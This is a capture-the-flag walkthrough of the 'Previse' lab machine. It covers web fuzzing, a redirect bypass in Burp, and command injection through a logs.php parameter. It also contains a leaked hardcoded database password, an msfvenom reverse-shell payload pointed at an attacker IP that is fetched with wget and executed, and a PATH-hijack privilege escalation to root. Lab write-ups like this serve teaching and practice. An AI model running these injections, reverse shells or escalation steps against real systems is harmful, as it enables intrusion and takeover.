 # previse

`Nmap` scan

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

so just 80 for now. the output from `ffuf`

`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u` [`http://10.129.186.43/FUZZ`](http://10.129.186.43/FUZZ) `-e .php,.txt`

```text
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
```

let's go through these files now.

so, when I do `/accounts.php`, it shows me a 302 redirect that is supposed to be protection mechanism for the website :\).

So, lets open up `Burp` and see if we can turn on the intercept and see if we can change the `302 FOUND` to `200 OK` and remove the Location header

![](../../.gitbook/assets/image%20%2811%29.png)

![](../../.gitbook/assets/image%20%284%29.png)

now, we got the following page,

![](../../.gitbook/assets/image%20%2814%29.png)

using this page, we are able to create the account as user `admin1`., and once we do that and login, I'm able to look at a zip file that is on the page at `/files.php`, and we got the source code of the website here.

![](../../.gitbook/assets/image%20%283%29.png)

```text
# config.php

<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

and this in `logs.php`, maybe we can inject something here

```text
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";
```

so, looks like this above piece of code is where our entry point is, so lets try to confirm that if we have code execution on the remote server by pinging our self from the target machine and running a 

`sudo tcpdump -i tun0 icmp` on the local machine

![](../../.gitbook/assets/image%20%2810%29.png)

if you see any response on your machine like below, that mostly means we have code execution

![](../../.gitbook/assets/image%20%281%29.png)

so, after confirming that we have code execution, I've run through couple of payloads to get a `reverse shell` using bash one-liner and `python` as well, but no luck, so I've used the generated payload using `msfvenom`

```text
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4242 -f elf -o shell
```

and once we generate this, we can just open up a http server on our local machine, and transfer the file to remote using `wget` and mark it as an executable `chmod 777 /tmp/shell` and run it

![](../../.gitbook/assets/image%20%2815%29.png)

once we do that, we get a reverse shell

once we get a reverse shell, we can see that there is a `SQL` server running on the machine, and if you remember, there is a password that we grabbed before for the `SQL` service

![](../../.gitbook/assets/image%20%2813%29.png)

not sure if we'll be able to crack this

![](../../.gitbook/assets/image%20%2812%29.png)

there we go, we got it. let's see if we can crack this, meanwhile in `/var/backups` I found some `gz` files, lets have a look at that before we go into cracking \(not much in those `gz` files\)

so, we're able to crack the password using `hashcat`, \(it took quite some time, unusual for a CTF\)

![](../../.gitbook/assets/screenshot-2021-08-13-at-22.45.09.png)

so, we can login into the box as `m4lwhere` user into this box, and its a pretty straight forward stuff after this to get `root`

![](../../.gitbook/assets/screenshot-2021-08-13-at-23.36.48.png)

and if we look closely, we don't see any env reset stuff going on when we run `sudo -l`, so its possible that if we export a `PATH` variable, we might be able to persist it when we run the sudo command.

```text
echo "chmod +s /bin/bash" >> ~/gzip
export PATH=$HOME:$PATH
```

once we do this and run the sudo command, `setuid` is turned ON on our `bash` executable, and we can simply run `/bin/bash -p` to get a root shell, and if you want an full ssh shell, you can put your `id_rsa.pub` into the `/root/.ssh/authorized_keys` and we can login using ssh

![](../../.gitbook/assets/screenshot-2021-08-13-at-23.44.01.png)

